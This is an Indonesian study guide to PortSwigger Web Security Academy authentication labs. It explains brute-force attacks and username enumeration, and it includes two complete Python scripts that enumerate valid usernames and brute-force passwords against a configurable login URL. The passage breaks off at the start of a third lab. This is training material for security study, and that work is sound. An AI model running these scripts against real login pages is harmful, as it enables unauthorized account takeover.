# Authentication Vulnerabilities — PortSwigger Web Security Academy

[🇬🇧 Read in English](authentication-vulnerabilities-en.md)

﷽

## Apa itu?


Jalur belajar ini membahas kerentanan autentikasi, yang dampaknya kritis terhadap keamanan. Kamu akan mempelajari mekanisme dan kerentanan yang umum, serta strategi untuk autentikasi yang kuat.

## Apa itu autentikasi?

Secara konseptual, kerentanan autentikasi mudah dipahami. Namun biasanya berdampak kritis karena hubungan langsung autentikasi dengan keamanan.

Kerentanan autentikasi dapat memungkinkan penyerang mengakses data dan fitur sensitif. Kerentanan ini juga membuka permukaan serangan tambahan untuk eksploitasi lanjutan. Karena itu, penting mempelajari cara mengidentifikasi dan mengeksploitasi kerentanan autentikasi, serta cara melewati proteksi umum.

Autentikasi adalah proses memverifikasi identitas pengguna atau klien. Situs web berpotensi diakses siapa saja yang terhubung ke internet. Ini membuat mekanisme autentikasi yang kuat menjadi bagian integral dari keamanan web yang efektif.

Ada tiga jenis utama autentikasi:

- Sesuatu yang kamu *tahu*, seperti kata sandi atau jawaban pertanyaan keamanan. Kadang disebut "knowledge factors".
- Sesuatu yang kamu *punya*, seperti objek fisik berupa ponsel atau token keamanan. Kadang disebut "possession factors".
- Sesuatu yang kamu *adalah* atau lakukan. Misalnya biometrik atau pola perilaku. Kadang disebut "inherence factors".

Mekanisme autentikasi mengandalkan berbagai teknologi untuk memverifikasi satu atau lebih faktor ini.

## Apa perbedaan autentikasi dan otorisasi?

Autentikasi adalah proses memverifikasi bahwa pengguna adalah orang yang mengklaim dirinya. Otorisasi melibatkan verifikasi apakah pengguna diizinkan melakukan sesuatu.

Contohnya, autentikasi menentukan apakah seseorang yang mencoba mengakses situs dengan username `Carlos123` benar-benar orang yang sama dengan pembuat akun tersebut.

Setelah `Carlos123` terautentikasi, izin yang dimilikinya menentukan apa yang boleh dia lakukan. Misalnya, dia mungkin diizinkan mengakses informasi pribadi pengguna lain, atau melakukan aksi seperti menghapus akun pengguna lain.

## Bagaimana kerentanan autentikasi muncul?

Sebagian besar kerentanan pada mekanisme autentikasi terjadi dalam dua cara:

- Mekanisme autentikasi lemah karena gagal melindungi secara memadai terhadap serangan brute-force.
- Kelemahan logika atau kualitas kode yang buruk pada implementasi memungkinkan mekanisme autentikasi dilewati sepenuhnya oleh penyerang. Ini kadang disebut "broken authentication".

Di banyak area pengembangan web, kelemahan logika membuat situs berperilaku tidak terduga, yang bisa jadi masalah keamanan atau bukan. Namun karena autentikasi sangat kritis bagi keamanan, kemungkinan besar logika autentikasi yang cacat justru membuka masalah keamanan.

## Apa dampak autentikasi yang rentan?

Dampak kerentanan autentikasi bisa parah. Jika penyerang melewati autentikasi atau brute-force masuk ke akun pengguna lain, mereka mendapat semua data dan fitur yang dimiliki akun yang dikompromikan. Jika mereka berhasil menguasai akun dengan hak tinggi, seperti administrator sistem, mereka bisa mengambil alih seluruh aplikasi dan berpotensi mengakses infrastruktur internal.

## Apa dampak autentikasi yang rentan? - Lanjutan

Bahkan mengkompromikan akun dengan hak rendah masih bisa memberi penyerang akses ke data yang seharusnya tidak mereka miliki, seperti informasi bisnis yang sensitif secara komersial. Walaupun akun itu tidak bisa mengakses halaman tambahan yang menjadi permukaan serangan baru, serangan berdampak tinggi seringkali tidak mungkin dilakukan dari halaman publik, tetapi mungkin dari halaman internal.

## Kerentanan pada login berbasis kata sandi

Untuk situs yang memakai proses login berbasis kata sandi, pengguna bisa mendaftar akun sendiri atau akun diberikan oleh administrator. Akun ini terhubung dengan username unik dan kata sandi rahasia, yang dimasukkan pengguna di formulir login untuk mengautentikasi diri.

Dalam skenario ini, fakta bahwa mereka tahu kata sandi rahasia dianggap cukup sebagai bukti identitas pengguna. Ini berarti keamanan situs dikompromikan jika penyerang bisa mendapatkan atau menebak kredensial login pengguna lain.

Ini bisa dilakukan dengan beberapa cara. Bagian berikut menunjukkan bagaimana penyerang memakai serangan brute-force, dan beberapa kelemahan proteksi brute-force. Kamu juga akan mempelajari kerentanan pada HTTP basic authentication.

### Serangan brute-force

Serangan brute-force adalah saat penyerang memakai sistem coba-coba untuk menebak kredensial pengguna yang valid. Serangan ini biasanya diotomatisasi memakai wordlist username dan kata sandi. Mengotomatiskan proses ini, apalagi dengan alat khusus, berpotensi memungkinkan penyerang membuat banyak percobaan login dengan kecepatan tinggi.

Brute-force tidak selalu berarti menebak username dan kata sandi secara acak total. Dengan logika dasar atau pengetahuan yang tersedia publik, penyerang bisa menyetel brute-force supaya tebakan lebih terarah. Ini meningkatkan efisiensi serangan secara signifikan. Situs yang mengandalkan login berbasis kata sandi sebagai satu-satunya metode autentikasi pengguna bisa sangat rentan jika tidak menerapkan proteksi brute-force yang memadai.

### Brute-force username

Username sangat mudah ditebak jika mengikuti pola yang dikenali, seperti alamat email. Contohnya, sangat umum melihat login bisnis dalam format `firstname.lastname@somecompany.com`. Namun, bahkan tanpa pola yang jelas, kadang akun dengan hak tinggi dibuat memakai username yang dapat diprediksi, seperti `admin` atau `administrator`.

Saat audit, cek apakah situs membuka potensi username secara publik. Misalnya, apakah kamu bisa mengakses profil pengguna tanpa login? Meski isi profil disembunyikan, nama yang dipakai di profil kadang sama dengan username login. Kamu juga harus cek respons HTTP untuk melihat apakah ada alamat email yang dibuka. Kadang respons memuat alamat email pengguna dengan hak tinggi, seperti administrator atau dukungan TI.

### Brute-force kata sandi

Kata sandi juga bisa di-brute-force, dengan tingkat kesulitan tergantung kekuatan kata sandi. Banyak situs menerapkan kebijakan kata sandi, yang memaksa pengguna membuat kata sandi entropi tinggi yang secara teoretis lebih sulit dipecahkan hanya dengan brute-force. Biasanya ini berarti mewajibkan kata sandi dengan:

- Jumlah karakter minimum
- Kombinasi huruf kecil dan besar
- Setidaknya satu karakter spesial

### Brute-force kata sandi - Lanjutan

Namun, meski kata sandi entropi tinggi sulit dipecahkan komputer saja, kita bisa memakai pengetahuan dasar tentang perilaku manusia untuk mengeksploitasi kerentanan yang tanpa sadar dibuat pengguna. Daripada membuat kata sandi kuat dengan kombinasi karakter acak, pengguna sering mengambil kata sandi yang mudah diingat dan memaksakannya agar memenuhi kebijakan kata sandi. Contohnya, jika `mypassword` tidak diizinkan, pengguna mungkin mencoba sesuatu seperti `Mypassword1!` atau `Myp4$$word` sebagai gantinya.

Jika kebijakan mewajibkan pengguna mengganti kata sandi secara berkala, umum pula pengguna hanya melakukan perubahan kecil yang dapat diprediksi pada kata sandi favorit mereka. Contohnya, `Mypassword1!` menjadi `Mypassword1?` atau `Mypassword2!`.

Pengetahuan tentang kredensial yang mungkin dipakai dan pola yang dapat diprediksi ini berarti serangan brute-force sering kali bisa jauh lebih canggih, dan karenanya lebih efektif, dibanding sekadar mengiterasi setiap kombinasi karakter.

### Enumerasi username

Enumerasi username terjadi saat penyerang bisa mengamati perubahan perilaku situs untuk mengidentifikasi apakah username tertentu valid.

Enumerasi username biasanya terjadi di halaman login, misalnya saat kamu memasukkan username valid tetapi kata sandi salah, atau di formulir registrasi saat kamu memasukkan username yang sudah dipakai. Ini sangat mengurangi waktu dan usaha yang diperlukan untuk brute-force login karena penyerang bisa dengan cepat membuat daftar pendek username valid.

### Enumerasi username - Lanjutan

Saat mencoba brute-force halaman login, kamu harus sangat memperhatikan perbedaan pada:

- *Status codes*: Saat brute-force, status code HTTP yang dikembalikan kemungkinan besar sama untuk mayoritas tebakan karena kebanyakan salah. Jika suatu tebakan mengembalikan status code berbeda, itu indikasi kuat username tersebut benar. Praktik terbaik situs adalah selalu mengembalikan status code yang sama apa pun hasilnya, tetapi praktik ini tidak selalu diikuti.
- *Error messages*: Kadang pesan error yang dikembalikan berbeda tergantung apakah username DAN kata sandi salah, atau hanya kata sandi yang salah. Praktik terbaik situs memakai pesan identik dan generik di kedua kasus, tetapi kesalahan kecil kadang menyelip. Satu karakter saja salah membuat dua pesan berbeda, bahkan jika karakter itu tidak terlihat di halaman yang dirender.
- *Response times*: Jika sebagian besar request ditangani dengan waktu respons serupa, penyimpangan apa pun menunjukkan sesuatu yang berbeda terjadi di balik layar. Ini indikasi lain tebakan username mungkin benar. Contohnya, situs mungkin hanya memeriksa apakah kata sandi benar jika username valid. Langkah tambahan ini bisa membuat sedikit kenaikan waktu respons. Ini mungkin halus, tetapi penyerang bisa membuat delay lebih jelas dengan memasukkan kata sandi yang sangat panjang yang ditangani situs lebih lama.

##### Lab: Username enumeration via different responses

Lab ini rentan terhadap enumerasi username dan brute-force kata sandi. Ada akun dengan username dan kata sandi yang dapat diprediksi, yang bisa ditemukan di wordlist berikut:

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

<details>
<summary>Lab details, screenshots & walkthrough 0.1</summary>

**Screenshots:**









##### Tutorial

1. Kirim request login dengan username tidak valid dan catat respons baseline (status, panjang, teks error).
2. Fase 1: coba tiap username kandidat dengan satu password tetap. Username valid mengembalikan respons yang berbeda dari baseline (mis. `Invalid username or password` tanpa titik di akhir, atau panjang berbeda).
3. Fase 2: brute-force password username yang ketemu. Sukses = redirect HTTP 302 ke `/my-account`.
4. Login dengan kredensial yang berhasil dipecahkan dan buka **My account** untuk menyelesaikan lab.

**Script:**

```python
#!/usr/bin/env python3
"""
Two-phase login brute-forcer for PortSwigger Authentication labs.
Detects by RESPONSE LENGTH + status + optional regex (default: length).

Phase 1: try each username with one fixed password; valid username = response
         length differs from the invalid-user baseline (or matches --valid-regex).
Phase 2: brute force the password of the valid username; success = length/status
         differs from failed baseline (or matches --success-regex).

Usage:
  python3 bruteforce_login.py --url https://<id>.web-security-academy.net/login \
    --usernames usernames.txt --passwords passwords.txt --cookie "session=..."
"""
from __future__ import annotations
import argparse, re, sys, time
from pathlib import Path
import requests

def load(path):
    out, seen = [], set()
    for line in Path(path).read_text(encoding='utf-8', errors='replace').splitlines():
        s = line.strip()
        if s and s not in seen:
            seen.add(s); out.append(s)
    return out

def norm(t):
    return re.sub(r'\s+', ' ', t or '').lower()

def main():
    ap = argparse.ArgumentParser()
    ap.add_argument('--url', required=True)
    ap.add_argument('--usernames', required=True)
    ap.add_argument('--passwords', required=True)
    ap.add_argument('--cookie', default='')
    ap.add_argument('--user-agent', default='Mozilla/5.0 (bruteforce-tool)')
    ap.add_argument('--user-field', default='username')
    ap.add_argument('--pass-field', default='password')
    ap.add_argument('--phase', choices=['usernames','passwords','both'], default='both')
    ap.add_argument('--fixed-password', default='test')
    ap.add_argument('--username', default='')
    ap.add_argument('--fail-regex', default='', help='regex marking FAILURE')
    ap.add_argument('--valid-regex', default='', help='phase1: regex marking VALID username')
    ap.add_argument('--success-regex', default='', help='phase2: regex marking SUCCESS')
    ap.add_argument('--delay', type=float, default=0.0)
    ap.add_argument('--timeout', type=float, default=15.0)
    ap.add_argument('--all', action='store_true')
    ap.add_argument('--proxy', default='')
    args = ap.parse_args()

    users = load(args.usernames)
    pwds = load(args.passwords)
    s = requests.Session()
    s.headers.update({'User-Agent': args.user_agent})
    if args.cookie: s.headers['Cookie'] = args.cookie
    proxies = {'http':args.proxy,'https':args.proxy} if args.proxy else None
    fail_re = re.compile(args.fail_regex, re.I) if args.fail_regex else None
    valid_re = re.compile(args.valid_regex, re.I) if args.valid_regex else None
    succ_re = re.compile(args.success_regex, re.I) if args.success_regex else None

    def post(u,p):
        return s.post(args.url, data={args.user_field:u, args.pass_field:p},
                      timeout=args.timeout, allow_redirects=False, proxies=proxies)

    # baseline for phase 1: one known-invalid username
    baseline_len = None
    try:
        r0 = post('__invalid_user__', args.fixed_password)
        baseline_len = len(r0.text or '')
        print(f'[*] baseline invalid-user len={baseline_len} status={r0.status_code}', file=sys.stderr)
    except Exception as e:
        print(f'[!] baseline error: {e}', file=sys.stderr)

    # phase 1
    valid_users = []
    if args.phase in ('usernames','both') and not args.username:
        print(f'[*] PHASE 1: {len(users)} usernames (fixed pw="{args.fixed_password}")', file=sys.stderr)
        for i,u in enumerate(users,1):
            try: r = post(u, args.fixed_password)
            except Exception as e: time.sleep(1); continue
            body = r.text or ''
            if valid_re:
                ok = bool(valid_re.search(norm(body)))
            else:
                ok = (baseline_len is not None and len(body) != baseline_len) or r.status_code != r0.status_code
            if ok:
                print(f'[+] VALID USERNAME: {u} len={len(body)} status={r.status_code}', file=sys.stderr)
                valid_users.append(u)
                if not args.all: break
            elif i % 25 == 0:
                print(f'[*] {i}/{len(users)}', file=sys.stderr)
            if args.delay: time.sleep(args.delay)

    if args.phase == 'usernames':
        print('VALID: ' + (', '.join(valid_users) if valid_users else 'none'))
        return 0 if valid_users else 1

    targets = [args.username] if args.username else valid_users
    if not targets:
        print('[-] no valid username; skip phase 2', file=sys.stderr)
        return 1

    # baseline for phase 2: valid user + wrong password
    pwd_baseline = None
    try:
        rp = post(targets[0], '__wrong_pwd__')
        pwd_baseline = (len(rp.text or ''), rp.status_code)
        print(f'[*] phase2 baseline wrong-pw len={pwd_baseline[0]} status={pwd_baseline[1]}', file=sys.stderr)
    except Exception: pass

    print(f'[*] PHASE 2: {len(pwds)} passwords for {targets}', file=sys.stderr)
    hits = []
    for u in targets:
        for i,p in enumerate(pwds,1):
            try: r = post(u,p)
            except Exception: time.sleep(1); continue
            body = r.text or ''
            if succ_re:
                ok = bool(succ_re.search(norm(body)))
            elif fail_re:
                ok = not fail_re.search(norm(body))
            else:
                ok = (pwd_baseline is None or
                      (len(body), r.status_code) != pwd_baseline)
            if ok:
                loc = r.headers.get('Location','')
                print(f'[+] HIT {u}:{p} len={len(body)} status={r.status_code} {loc}', file=sys.stderr)
                hits.append((u,p,r.status_code,loc))
                if not args.all:
                    print(f'\nFOUND {u}:{p}')
                    return 0
            elif i % 25 == 0:
                print(f'[*] {u}: {i}/{len(pwds)}', file=sys.stderr)
            if args.delay: time.sleep(args.delay)
    print('HITS: ' + (', '.join(f'{u}:{p}' for u,p,_,_ in hits) if hits else 'none'))
    return 0 if hits else 1

if __name__ == '__main__':
    sys.exit(main())
```

**Cara menjalankan:**

```bash
python3 Username-enumeration-via-different-responses.py --url https://<id>.web-security-academy.net/login --usernames usernames.txt --passwords passwords.txt --cookie "session=..."
```

##### Reference

<details>
<summary>1. Username enumeration via different responses — Michael Sommer</summary>

Platform: YouTube
Video: https://www.youtube.com/watch?v=-bzZ9Ky8GmU
Purpose: Video ini menunjukkan solusi lab "Username enumeration via different responses" dari Web Security Academy (PortSwigger)

</details>

<details>
<summary>2. Authentication Vulnerabilities - Lab #1 Username enumeration via different responses — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=DEUCRYGt3TY
Purpose: Di video ini, kami membahas Lab #1 pada modul Authentication dari Web Security Academy. Lab ini rentan terhadap enumerasi username dan brute-force kata sandi. Ada akun dengan username dan kata sandi yang dapat diprediksi, yang bisa ditemukan di wordlist berikut:

</details>

</details>

##### Lab: Username enumeration via subtly different responses

Lab ini secara halus rentan terhadap enumerasi username dan brute-force kata sandi. Ada akun dengan username dan kata sandi yang dapat diprediksi, yang bisa ditemukan di wordlist berikut:

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

<details>
<summary>Lab details, screenshots & walkthrough 0.2</summary>

**Screenshots:**






Untuk menyelesaikan lab, enumerasi username valid, brute-force kata sandi pengguna tersebut, lalu akses halaman akunnya.

##### Tutorial

1. Baseline: username tidak valid mengembalikan `Invalid username or password.` (DENGAN titik di akhir).
2. Fase 1: username valid mengembalikan `Invalid username or password` (TANPA titik) — perbedaan halusnya.
3. Fase 2: brute-force password; sukses = redirect HTTP 301/302.
4. Login sebagai korban dan buka **My account**.

**Script:**

```python
#!/usr/bin/env python3
"""
Username enumeration via subtly different responses (PortSwigger lab solver).

Pattern (the "subtle difference"):
  invalid username -> body contains "Invalid username or password."  (WITH trailing dot)
  valid username   -> body contains "Invalid username or password"   (NO trailing dot)

No hardcoded usernames or passwords: wordlists come from files
(default usernames.txt / passwords.txt).

Logic:
  PHASE 1 - username
    baseline = 1 request with a random invalid username.
    valid username <=> response does NOT match --invalid-regex.
                     (default regex: "invalid username or password\\.")

  PHASE 2 - password
    success <=> HTTP 301/302/303/307/308.

Usage:
  python3 Username-enumeration-via-subtly-different-responses.py \
      --url https://<id>.web-security-academy.net/login \
      --cookie "session=..." \
      --usernames usernames.txt --passwords passwords.txt

  ... --verbose
  ... --csv attempts.csv
  ... --phase usernames
  ... --phase passwords --username <found-user>
  ... --invalid-regex "invalid username or password\\."
  ... --proxy http://127.0.0.1:8080
"""
from __future__ import annotations

import argparse
import csv
import re
import sys
import time
from pathlib import Path
from urllib.parse import urlparse

try:
    import requests
    from requests import RequestException
except ImportError:
    print('error: pip3 install requests', file=sys.stderr)
    sys.exit(2)


def load_list(path: Path) -> list[str]:
    out, seen = [], set()
    for line in path.read_text(encoding='utf-8', errors='replace').splitlines():
        s = line.strip()
        if s and s not in seen:
            seen.add(s)
            out.append(s)
    return out


def norm(t: str) -> str:
    return re.sub(r'\s+', ' ', t or '').strip().lower()


def main() -> int:
    ap = argparse.ArgumentParser(
        description='Username enumeration via subtly different responses.')
    ap.add_argument('--url', required=True)
    ap.add_argument('--cookie', default='')
    ap.add_argument('--usernames', default='usernames.txt')
    ap.add_argument('--passwords', default='passwords.txt')
    ap.add_argument('--user-field', default='username')
    ap.add_argument('--pass-field', default='password')
    ap.add_argument('--static-password', default='test')
    ap.add_argument('--user-agent', default='Mozilla/5.0 (UsernameEnumeration)')
    ap.add_argument('--proxy', default='')
    ap.add_argument('--delay', type=float, default=0.0)
    ap.add_argument('--timeout', type=float, default=20.0)
    ap.add_argument('--insecure', action='store_true')
    ap.add_argument('--all', action='store_true')
    ap.add_argument('--verbose', action='store_true')
    ap.add_argument('--csv', default='')
    ap.add_argument('--invalid-regex', default=r'invalid username or password\.',
                    help='regex marking an INVALID username (trailing dot matters). '
                         'A response NOT matching this = valid username.')
    ap.add_argument('--phase', choices=['usernames', 'passwords', 'both'], default='both')
    ap.add_argument('--username', default='')
    args = ap.parse_args()

    usernames = load_list(Path(args.usernames))
    passwords = load_list(Path(args.passwords))
    if not usernames or not passwords:
        print('error: username/password wordlist is empty', file=sys.stderr)
        return 2

    s = requests.Session()
    s.headers.update({
        'User-Agent': args.user_agent,
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.9',
        'Content-Type': 'application/x-www-form-urlencoded',
    })
    if args.cookie:
        s.headers['Cookie'] = args.cookie

    p = urlparse(args.url)
    vhost = f'{p.scheme}://{p.netloc}'
    s.headers['Origin'] = vhost
    s.headers['Referer'] = vhost + '/login'

    proxies = {'http': args.proxy, 'https': args.proxy} if args.proxy else None
    verify = not args.insecure
    invalid_re = re.compile(args.invalid_regex, re.I)

    rows: list[tuple[str, str, str, int, int, str, str]] = []

    def attempt(phase: str, user: str, pwd: str):
        try:
            r = s.post(args.url,
                       data={args.user_field: user, args.pass_field: pwd},
                       timeout=args.timeout, allow_redirects=False,
                       proxies=proxies, verify=verify)
        except RequestException as e:
            print(f'[!] error {phase} {user}:{pwd} -> {e}', file=sys.stderr)
            time.sleep(1)
            return None
        body = r.text or ''
        loc = r.headers.get('Location', '')
        m = bool(invalid_re.search(norm(body)))
        rows.append((phase, user, pwd, r.status_code, len(body), loc,
                     'invalid' if m else 'no-dot'))
        if args.verbose:
            print(f'    {phase:8s} {user}:{pwd:<12s} status={r.status_code} '
                  f'len={len(body)} invalid_match={m} {loc}', file=sys.stderr)
        if args.delay:
            time.sleep(args.delay)
        return r

    # ---------- baseline: random invalid username ----------
    r0 = attempt('baseline', 'zz-not-a-real-user-zz', args.static_password)
    if r0 is None:
        print('[-] baseline failed (check URL/connectivity)', file=sys.stderr)
        return 2
    b = norm(r0.text or '')
    print(f'[*] baseline invalid -> len={len(r0.text or "")} status={r0.status_code} '
          f'invalid_match={bool(invalid_re.search(b))}', file=sys.stderr)
    if not invalid_re.search(b):
        print('[!] baseline does not match --invalid-regex; check the lab error text.',
              file=sys.stderr)

    # ---------- PHASE 1: usernames ----------
    valid: list[str] = []
    if args.phase in ('usernames', 'both') and not args.username:
        print(f'[*] PHASE 1: {len(usernames)} username (static pw="{args.static_password}")',
              file=sys.stderr)
        for i, u in enumerate(usernames, 1):
            r = attempt('user', u, args.static_password)
            if r is None:
                continue
            if not invalid_re.search(norm(r.text or '')):
                print(f'[+] VALID USERNAME: {u} (len={len(r.text or "")} '
                      f'status={r.status_code})', file=sys.stderr)
                valid.append(u)
                if not args.all:
                    break
            elif i % 25 == 0:
                print(f'[*] {i}/{len(usernames)}', file=sys.stderr)

    if args.phase == 'usernames':
        print('\nVALID USERNAMES: ' + (', '.join(valid) if valid else 'none'))
        if args.csv:
            with open(args.csv, 'w', newline='', encoding='utf-8') as f:
                w = csv.writer(f)
                w.writerow(('phase', 'user', 'pass', 'status', 'len', 'location', 'note'))
                w.writerows(rows)
            print(f'[*] CSV: {args.csv}', file=sys.stderr)
        return 0 if valid else 1

    # ---------- PHASE 2: passwords ----------
    targets = [args.username] if args.username else valid
    if not targets:
        print('[-] no valid username; skipping phase 2', file=sys.stderr)
        return 1

    print(f'[*] PHASE 2: {len(passwords)} password for {targets}', file=sys.stderr)
    hits: list[tuple[str, str, int, str]] = []
    for u in targets:
        for i, pw in enumerate(passwords, 1):
            r = attempt('pass', u, pw)
            if r is None:
                continue
            status = r.status_code
            length = len(r.text or '')
            loc = r.headers.get('Location', '')

            if status in (301, 302, 303, 307, 308):
                ok, why = True, 'redirect'
            else:
                # 200 = failed login. Do NOT use length-diff (false positives).
                ok, why = False, f'no-redirect (len={length}, status={status})'

            if ok:
                print(f'[+] HIT {u}:{pw} status={status} len={length} {loc} ({why})',
                      file=sys.stderr)
                hits.append((u, pw, status, loc))
                if not args.all:
                    break
            elif i % 25 == 0:
                print(f'[*] {u}: {i}/{len(passwords)}', file=sys.stderr)
        if hits and not args.all:
            break

    if args.csv:
        with open(args.csv, 'w', newline='', encoding='utf-8') as f:
            w = csv.writer(f)
            w.writerow(('phase', 'user', 'pass', 'status', 'len', 'location', 'note'))
            w.writerows(rows)
        print(f'[*] CSV: {args.csv}', file=sys.stderr)

    if hits:
        for u, pw, st, loc in hits:
            print(f'HIT {u}:{pw} ({st})')
        return 0
    print('[-] password not found', file=sys.stderr)
    return 1


if __name__ == '__main__':
    sys.exit(main())
```

**Cara menjalankan:**

```bash
python3 Username-enumeration-via-subtly-different-responses.py --url https://<id>.web-security-academy.net/login --usernames usernames.txt --passwords passwords.txt --cookie "session=..."
```

##### Reference

<details>
<summary>3. Authentication Vulnerabilities - Lab #4 Username enumeration via different responses | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=1pZTGqBgejU
Purpose: Di video ini, kami membahas Lab #4 pada modul Authentication dari Web Security Academy. Lab ini secara halus rentan terhadap enumerasi username dan brute-force kata sandi. Ada akun dengan username dan kata sandi yang dapat diprediksi, yang bisa ditemukan di wordlist berikut:

</details>

</details>

##### Lab: Username enumeration via response timing

Lab ini rentan terhadap enumerasi username memakai waktu respons. Untuk menyelesaikan lab, enumerasi username valid, brute-force kata sandi pengguna tersebut, lalu akses halaman akunnya.

<details>
<summary>Lab details, screenshots & walkthrough 0.3</summary>

- Kredensialmu: `wiener`:`peter`
- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

